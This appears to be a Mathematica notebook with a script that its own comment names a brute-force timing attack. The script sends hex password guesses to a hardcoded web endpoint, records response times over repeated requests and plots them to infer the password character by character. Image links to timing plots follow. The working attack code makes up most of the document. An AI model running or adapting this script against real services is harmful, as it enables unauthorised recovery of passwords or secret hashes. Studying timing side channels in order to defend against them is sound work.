```mathematica
(** Synchronous version of the bruteforce timing attack script **)
timingsList = {};
frequencies = {};
alphabet = {"1","2","3","4","5","6","7","8","9","0","a","b","c","d","e","f"};
reducedAlphabet = {}; (*Guesses*)
uri="http://standard.io:8080/?password=";
HASHLENGTH = 40;

(*Iterator function*)
enumFunc[payload_, iterator_] :=
(
endpoint = uri <> ToString[payload];
timeStarted = AbsoluteTime[];

(* Dispatch a request *)
statusCode = URLFetch[endpoint, {"StatusCode"}];
timeDone = AbsoluteTime[];
timeDifference = AbsoluteTime[]- timeStarted;

AppendTo[timingsList, {timeStarted,timeDone,timeDifference, payload, iterator}];
AppendTo[frequencies, {payload, iterator, timeDifference}]
)

(*Payload generator*)
For [q=1, q≤10,q++, (*Only 10 repetitions of the same payload*)
(
For [j=1,j ≤ Length[alphabet],j++,
(
candidate= "" <>PadRight[Join[reducedAlphabet,{alphabet[[j]]}],HASHLENGTH, "0"];

(*Feed into iterator/request dispatcher*)
enumFunc[candidate, q]

)
];

(* Print a table with the response timings *)
Print[TableForm[timingsList,TableHeadings->{None, {"Time started", "Done","Difference", "Payload", "Request no."}}]];

Print[Show[ListPlot[timingsList⟦All,3⟧,PlotTheme->"Business",AxesLabel->{"request no.","time"},Filling->Axis],ImageSize->Medium, PlotRange->All]]
)
];
```

Here are some examples from different implementations







```mathematica
frequencies
```